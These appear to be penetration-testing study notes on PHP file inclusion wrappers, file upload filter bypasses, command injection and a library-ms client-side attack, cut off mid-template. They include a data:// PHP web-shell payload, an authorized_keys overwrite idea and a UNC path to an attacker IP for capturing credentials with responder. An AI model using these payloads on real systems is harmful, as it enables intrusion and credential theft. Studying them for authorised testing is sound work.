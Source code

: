 - <mark>PHP Wrappers</mark>: can be used to bypass filters or obtain code execution via `File Inclusion` in PHP web applications.
	- <mark>php://filter</mark>: display the contents of files either with or without encodings like *ROT13* or *Base64*. Hence, allow one to display the contents of executable files such as `.php`, rather than executing them.
		- `e.g.`: `?page=php://filter/convert.base64-encode/resource=admin.php`
	- <mark>data://</mark>: used to embed data elements as plaintext or base64-encoded data in the running web application's code and offers an alternative method when we cannot poison a local file with PHP code.
		- `e.g.`: `?page=data://text/plain,<?php echo system($_GET["cmd"]);?>&cmd=ls`
		- <mark>IMPORTANT</mark>: Be aware to exploit it, the <mark>allow_url_include</mark> setting needs to be enabled.
### Remote File Inclusion (RFI)
-  In PHP web applications, the `allow_url_include` option needs to be enabled to leverage RFI.
	- allow us to include files from a remote system over `HTTP` or `SMB`.
# File Upload
```
When testing a file upload form, we should always determine what happens when a file is uploaded twice. 

1. If the web application indicates that the file already exists, we can use this method to brute force the contents of a web server. 
2. If the web application displays an error message, this may provide valuable information such as the programming language or web technologies in use.
```
### Executable Files
- <mark>Bypassing Filters</mark>:
	- change the file extension to a less-commonly used PHP file extension such as `.phps` or `.php7` .
		- simple filters that only check for the most common file extensions, `.php` and `.phtml`.
	- changing characters in the file extension to upper case. 
		- The blacklist may be implemented by comparing the file extension of the uploaded file to a list of strings containing only lower-case PHP file extensions.
### Non-Executable Files
- <mark>Overwrite Configuration Files</mark>:
	-  e.g. SSH `authorized_keys`, would generally be a prime target
	- Check if the web application allows us to specify a relative path in the filename and overwrite a file via `Directory Traversal` outside of the web root.
	- We can do this by modifying the "filename" parameter in the request.
- <mark>Capturing Credentials</mark>: #windows #php
	- we can try to enter a non-existing file with a UNC path in the "filename" parameter like `\\192.168.119.2\share\nonexistent.txt`.
	- Use `responder` to capture the corresponding authentication attempt.
# Command Injection
- <mark>OS Command Injection</mark>:
	- Handy snippet that displays "CMD" or "PowerShell" depending on where it is executed.
```bash
		(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
# Client-Side Attack
- `Library-ms` file extension
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
```